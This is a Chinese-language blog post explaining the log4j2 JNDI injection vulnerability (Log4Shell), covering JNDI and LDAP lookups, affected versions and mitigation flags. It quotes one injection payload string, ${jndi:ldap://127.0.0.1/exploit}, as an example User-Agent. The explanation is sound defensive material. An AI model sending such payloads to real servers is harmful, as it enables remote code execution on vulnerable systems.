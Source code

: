 ```yaml
---
layout: post
title: log4j2 一个JAVA的大漏洞
categories: [安全漏洞, JAVA]
description: log4j2 核弹级漏洞
keywords: log4j2 , 安全漏洞
---
```



# log4j2 网络安全史册上的漏洞

不管是什么编程语言，不管是前端后端还是客户端，对打日志都不会陌生。

通过日志，可以帮助我们了解程序的运行情况，排查程序运行中出现的问题。

在Java技术栈中，用的比较多的日志输出框架主要是 log4j2 和 logback 。

今天讨论的主角就是 log4j2。

我们经常会在日志中输出一些变量，比如：

```

logger.info("client ip: {}", clientIp)
```

现在思考一个问题：

假如现在想要通过日志输出一个Java对象，但这个对象不在程序中，而是在其他地方，比如可能在某个文件中，甚至可能在网络上的某个地方，这种时候怎么办呢？

log4j2 的强大之处在于,除了可以输出程序中的变量,它还提供了一个叫 Lookup 的东西,可以用来输出更多内容：

lookup，顾名思义就是查找、搜索的意思，那在log4j2中，就是允许在输出日志的时候，通过某种方式去查找要输出的内容。


## 一、背景 

### JNDI 是什么?

JNDI即 `Java Naming and Directory Interface`（JAVA命名和目录接口），它提供一个目录系统，并将服务名称与对象关联起来，从而使得开发人员在开发过程中可以使用名称来访问对象。

看不懂？看不懂就对了！

简单粗暴理解：有一个类似于字典的数据源，你可以通过JNDI接口，传一个name进去，就能获取到对象了。

那不同的数据源肯定有不同的查找方式，所以JNDI也只是一个上层封装，在它下面也支持很多种具体的数据源。


#### LDAP 与 JNDI 关系？

继续把目光聚焦，咱们只看这个叫LDAP的东西。

LDAP 即 `Lightweight Directory Access Protocol`（轻量级目录访问协议），目录是一个为查询、浏览和搜索而优化的专业分布式数据库，它呈树状结构组织数据，就好象Linux/Unix系统中的文件目录一样。目录数据库和关系数据库不同，它有优异的读性能，但写性能差，并且没有事务处理、回滚等复杂功能，不适于存储修改频繁的数据。所以目录天生是用来查询的，就好像它的名字一样。

![](/images/posts/security/JNDI.jpg#pic_center)


看不懂？看不懂就对了！

这个东西用在统一身份认证领域比较多，但今天也不是这篇文章的重点。你只需要简单粗暴理解：
> 有一个类似于字典的数据源，你可以通过LDAP协议，传一个name进去，就能获取到数据。

## 漏洞原理

好了，有了以上的基础，再来理解这个漏洞就很容易了。

假如某一个Java程序中，将浏览器的类型记录到了日志中：

```
String userAgent = request.getHeader("User-Agent");
logger.info(userAgent);
```

网络安全中有一个准则：`不要信任用户输入的任何信息`

这其中，User-Agent就属于外界输入的信息，而不是自己程序里定义出来的。只要是外界输入的，就有可能存在恶意的内容。

假如有人发来了一个HTTP请求，他的 `User-Agent` 是这样一个字符串：

> ${jndi:ldap://127.0.0.1/exploit}

接下来，log4j2将会对这行要输出的字符串进行解析。

首先，它发现了字符串中有 ${}，知道这个里面包裹的内容是要单独处理的。

进一步解析，发现是JNDI扩展内容。

再进一步解析，发现了是LDAP协议，LDAP服务器在127.0.0.1，要查找的key是exploit。

最后，调用具体负责LDAP的模块去请求对应的数据。

如果只是请求普通的数据，那也没什么，但问题就出在还可以请求Java对象！


Java对象一般只存在于内存中，但也可以通过 `序列化` 的方式将其存储到文件中，或者通过网络传输。

如果是自己定义的序列化方式也还好，但更危险的在于：JNDI还支持一个叫命名引用（Naming References）的方式，可以通过远程下载一个class文件，然后下载后加载起来构建对象

> PS：有时候Java对象比较大，直接通过LDAP这些存储不方便，就整了个类似于二次跳转的意思，不直接返回对象内容，而是告诉你对象在哪个class里，让你去那里找。


注意，这里就是核心问题了：`JNDI可以远程下载class文件来构建对象！！！。`

危险在哪里？

如果远程下载的URL指向的是一个黑客的服务器，并且下载的class文件里面藏有恶意代码，那不就完犊子了吗？

还没看懂？没关系，我画了一张图：

![](/images/posts/security/JNDI_exp.jpg#pic_center)


这就是鼎鼎大名的JNDI注入攻击！

其实除了LDAP，还有RMI的方式，有兴趣的可以了解下。


### JNDI 注入

其实这种攻击手法不是这一次出现了，早在2016的blackhat大会上，就有大佬披露了这种攻击方式。

回过头来看，问题的核心在于：

Java允许通过JNDI远程去下载一个class文件来加载对象，如果这个远程地址是自己的服务器，那还好说，如果是可以被外界来指定的地址，那就要出大问题！

前面的例子中，一直用的127.0.0.1来代替LDAP服务器地址，那如果输入的User-Agent字符串中不是这个地址，而是一个恶意服务器地址呢？

## 影响规模

这一次漏洞的影响面之所以如此之大，主要还是log4j2的使用面实在是太广了。

一方面现在Java技术栈在Web、后端开发、大数据等领域应用非常广泛，国内除了阿里巴巴、京东、美团等一大片以Java为主要技术栈的公司外，还有多如牛毛的中小企业选择Java。

可能的受影响应用包括但不限于如下：
Apache Struts2、Apache Solr、Apache Flink、Apache Druid、ElasticSearch、flume、dubbo、Redis、logstash、kafka

## 影响版本

此次受影响版本如下：
	
| Log4j2版本 | 是否受影响 | 
| ------- | :------ | 
| 2.x<=2.14.1 | 是 | 



## 修复方案
1. 紧急缓解措施
（1） 修改jvm参数 -Dlog4j2.formatMsgNoLookups=true     
（2） 修改配置log4j2.formatMsgNoLookups=True
（3） 将系统环境变量 FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS 设置为 true

## 二、漏洞复现



## 转载

https://zhuanlan.zhihu.com/p/444103520